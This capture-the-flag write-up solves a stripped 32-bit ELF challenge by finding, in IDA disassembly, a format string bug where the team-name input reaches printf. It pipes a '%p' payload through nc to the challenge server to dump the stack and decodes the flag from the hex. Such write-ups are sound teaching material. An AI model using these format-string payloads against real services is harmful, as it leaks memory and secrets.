 ## TL;DR
* Format string

Given that this challenge was 600 points, I expected to be challenged with this one. But with 91 solves I think the people at SDSLabs kinda messed up on the points for this one lol.

Checking out what type of file we were dealing with here:
{% highlight bash lineanchors %}
[~/Documents/CTFs/backdoor]$ file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
{% endhighlight %}

Alright 32 bit, let's crack open IDA for this one then :D
### Aside
This program is stripped, meaning that we do not have any labels for any of the functions (functions don't have function names). IDA tries to search for patterns in the disassembly for where functions exist. For example, functions typically consist of a function prolog, 
{% highlight nasm lineanchors %}
push    ebp
mov     ebp, esp
...
{% endhighlight %}
and at the very end you would see something like, 
{% highlight nasm lineanchors %}
...
leave
ret
{% endhighlight %}

Looking at the code we can identify a function that IDA found to be the main function based on the parameters passed to `__libc_start_main`:

{% highlight nasm lineanchors %}
; int __cdecl main(int argc, const char **argv, const char **envp)
main proc near

argc= dword ptr  8
argv= dword ptr  0Ch
envp= dword ptr  10h

push    ebp
mov     ebp, esp
and     esp, 0FFFFFFF0h
sub     esp, 20h
mov     dword ptr [esp], 0C8h ; size
call    _malloc
mov     [esp+18h], eax
mov     dword ptr [esp], 64h ; size
call    _malloc
mov     [esp+1Ch], eax
mov     dword ptr [esp], offset format ; "Enter teamname: "
call    _printf
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+18h]
mov     [esp+4], eax
mov     dword ptr [esp], offset a200s ; "%200s"
call    ___isoc99_scanf
mov     dword ptr [esp], offset aEnterFlag ; "Enter flag: "
call    _printf
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+1Ch]
mov     [esp+4], eax
mov     dword ptr [esp], offset a100s ; "%100s"
call    ___isoc99_scanf
mov     dword ptr [esp], 2 ; seconds
call    _sleep
mov     eax, [esp+1Ch]
mov     [esp+4], eax
mov     eax, [esp+18h]
mov     [esp], eax
call    sub_80486AD
mov     eax, [esp+18h]
mov     [esp], eax      ; ptr
call    _free
mov     eax, [esp+1Ch]
mov     [esp], eax      ; ptr
call    _free
mov     eax, 0
leave
retn
main endp
{% endhighlight %}

My initial guess at what the vulnerability in this program was was a heap overflow because there were some calls to `malloc` and `free` which is very typical of a heap overflow sort of challenge. But looking a little more into this function, we see a call to another function `call    sub_80486AD` which consists of:

1) Opening the file "flag.txt"
{% highlight nasm lineanchors %}
...
mov     dword ptr [esp+4], offset modes ; "r"
mov     dword ptr [esp], offset filename ; "flag.txt"
call    _fopen
mov     [ebp+stream], eax
...
{% endhighlight %}
2) Reading the contents into a stack based buffer
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+stream]
mov     [esp+8], eax    ; stream
mov     dword ptr [esp+4], 64h ; n
lea     eax, [ebp+s]
mov     [esp], eax      ; s
call    _fgets
...
{% endhighlight %}

3) and...drum roll...a format string vulnerability :D
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+format]
mov     [esp], eax      ; format
call    _printf
...
{% endhighlight %}
Now you may ask yourself why is this a format string vulnerabilty? OK, so there is only one parameter given to the `printf` function and with our extensive C knowledge we know that the first parameter to the `printf` function is the format specifier for the function. So if the format specifier is `"%s"` and `printf` goes to get the second parameter then it will go grab the next parameter given by the user as the second parameter, but since we only are giving it one parameter...what would happen? (read more here if you are unsure: [stanford crypto](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)). Let's see which one of our inputs is actually the format string. If we look earlier in the program to see where this `format` string is coming from...
{% highlight nasm lineanchors %}
...
mov     eax, [ebp+arg_0]
mov     [ebp+format], eax
...
{% endhighlight %}
Alright so it is the first parameter to this function that is called. And if we look at when this function is called...
{% highlight nasm lineanchors %}
mov     eax, [esp+18h]
mov     [esp], eax
call    sub_80486AD
{% endhighlight %}
So `esp+18h` is where our buffer is located and that turns out to be...
{% highlight nasm lineanchors %}
mov     dword ptr [esp], offset format ; "Enter teamname: "
call    _printf         ; print out "Enter teamname: "
mov     eax, ds:stdout
mov     [esp], eax      ; stream
call    _fflush
mov     eax, [esp+18h]  ; the buffer passed into the vulnerable function
mov     [esp+4], eax
mov     dword ptr [esp], offset a200s ; "%200s"
call    ___isoc99_scanf ; read user input into the teamname buffer
{% endhighlight %}
So we know that what we enter into our teamname is the format string :D OK, so know we have the power to write and read to the stack and if we think about it for a second, our flag was read in from a file and put on a stack buffer... why don't we just dump the stack and then get our flag? (We thought that there was a pointer to the flag that we could just do a direct parameter access ie. "%12$s" to print out the flag really easily instead of parsing the stack but after a while of bruteforcing the direct parameter to access we started printing out environment variables and we knew that we went too far lol).

{% highlight python lineanchors %}
[~] python -c 'print "%p"*30' | nc hack.bckdr.in 8004
Enter teamname: Enter flag: <contents of stack>
[~] python
>>> flag_hex = "<hex of flag>"
>>> "".join([chr(int(a[6:8], 16)) + chr(int(a[4:6], 16)) + chr(int(a[2:4], 16)) + chr(int(a[0:2], 16)) for a in flag_hex.split("0x") if a]
<flag>
{% endhighlight %}
### Note
Since these challenges are still up, I just wrote down the steps to get the flag and not the actual flag itself

So there you have it :D

I would show the work that I did